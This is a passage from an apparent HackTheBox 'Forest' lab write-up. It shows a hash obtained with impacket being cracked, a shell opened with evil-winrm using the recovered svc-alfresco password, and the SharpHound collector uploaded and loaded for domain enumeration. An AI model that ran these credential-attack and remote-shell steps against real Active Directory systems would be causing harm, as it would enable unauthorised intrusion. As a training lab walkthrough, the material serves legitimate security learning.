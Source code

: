 
### Using impacket for checking
![image](/assets/images/htb-boxes/forest/Pasted image 20210704130656.png)
We get a hash for `svc-alfresco` and for all the other users, preauth is disabled.

## Trying to crack the hash
![image](/assets/images/htb-boxes/forest/Pasted image 20210704130822.png)
And we crack the hash successfully.

## Checking with cme
![image](/assets/images/htb-boxes/forest/Pasted image 20210704130935.png)
It says pwned which means we can get a shell using evil-winrm.

## Getting a shell
```console
reddevil@ubuntu:~/Documents/htb/retired/forrest$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

## Reading user.txt
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e4************13fb0d9ed
```

# Privilege Escalation
We can manually enumerate the domain using powerview, but i like to upload the ingestor for bloodhound called sharphound, which will collect all the information and we can view the information very easily on the Bloodhound.

## Uploading Sharphound
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> upload sharp.ps1
Info: Uploading sharp.ps1 to C:\Users\svc-alfresco\desktop\sharp.ps1

                                                             
Data: 1298980 bytes of 1298980 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> . .\sharp.ps1
```
We upload the script and load it into the memory.
